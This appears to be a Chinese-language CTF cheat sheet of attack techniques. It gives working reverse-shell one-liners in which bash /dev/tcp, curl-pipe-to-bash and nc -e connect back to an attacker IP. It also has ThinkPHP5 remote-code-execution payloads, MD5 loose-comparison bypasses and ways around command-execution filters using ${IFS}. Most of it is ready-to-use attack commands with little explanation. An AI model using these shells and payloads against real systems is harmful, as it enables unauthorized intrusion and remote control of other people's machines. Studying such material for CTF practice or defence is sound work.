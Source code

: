 ### 1.反弹shell

说明：端口可任意，但要保持一致而且不能被占用，以下均为攻击机登录被攻击机

#### bash连接

```bash
攻击机器输入 nc -lvp 7777

被攻击机器输入bash -i >& /dev/tcp/攻击机ip/7777 0>&1  
```

然后攻击机器就相当于登陆了了被攻击机器

#### curl连接

```bash
在攻击机根目录下创建shell.txt,内容为bash -i >& /dev/tcp/攻击机ip/7777 0>&1

//注意shell.txt不是在服务器根目录，而是例如/var/www/html下
被攻击机执行curl 攻击机ip/shell.txt|bash  //先curl获得shell.txt的内容然后用bash执行
```

#### nc连接

说明：用nc连接成功后不会出现类似bash连接那种开头的root@kali这种，可用pwd检测是否连接成功

**利用攻击机ip**

```bash
攻击机输入 nc -lvp 7777

被攻击机输入 nc -e /bin/bash 攻击机ip 7777 
```

**利用被攻击机ip**

其他都是需要攻击机ip，这个则相反。我的理解是需要攻击机ip的相当于把shell弹给攻击机(所以攻击机ip和bash在一行代码)，而这个相当于在本地端口开个shell,攻击机访问端口来拿shell

```bash
攻击机输入 nc 被攻击机ip 7777

被攻击机输入  nc -lvp 7777 -e /bin/bash
```

### 2.thinkphp5漏洞

thinkphp5默认有s参数，若题目暗示是thinkphp5可查先构造?s=captcha报错查看版本再在网上搜漏洞

```
http://serverName/index.php?s=/模块/控制器/操作/[参数名/参数值...]
```

**两个通杀payload**

```
版本号：5.0.8~5.0.19 
payload:s=whoami&_method=__construct&filter&filter=system _

版本号：5.0.20~5.0.23 
payload：_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```

### 3.查看swp源码

在linux内输入vim -r index.php.swp即可看到swp文件源码

### 4.ssh连接

```bash
ssh root@url -p port
```

### 5.md5漏洞

1.注意这题必须加密后只能为0e+数字，如果字符串有字母就不相等了

if ($md5==md5($md5))       $md5=0e215962017  

2.双MD5加密仍是0e开头

CbDLytmyGm2xQyaLNhWn

770hQgrBOjrcqftrlaZk

3.a和b的MD5加密===，但a!=b

传a[]=1&b[]=2即可

4.三个数值不同，但MD5相同：https://blog.csdn.net/qq_42967398/article/details/104522626 

//必须burpsuite发包，在浏览器直接post绕不过

### 6.命令执行

空格用${IFS}代替

cat tac more less被过滤可用cut${IFS}-b${IFS}1-222${IFS}flag.txt 

